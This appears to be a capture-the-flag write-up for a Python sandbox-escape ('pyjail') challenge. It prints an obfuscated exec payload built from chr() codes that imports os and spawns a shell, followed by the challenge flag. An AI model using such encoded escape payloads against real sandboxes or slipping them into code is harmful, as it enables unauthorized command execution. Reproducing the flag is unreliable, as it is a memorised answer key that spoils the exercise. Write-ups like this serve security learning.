



# nehebkaus trap
> In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

## About the Challenge
Classic pyjail chall :D



## How to Solve?
There is a some restriction, if we input

```
print(globals())
```

You can see the blacklist character



But we can still use some useful function, for example `breakpoint` or `exec`. In this case im using `exec` function to escape from the sandbox

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(115)+chr(104)+chr(39)+chr(41))
```

This payload will import `os` package and using `system` function



```
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!} 
```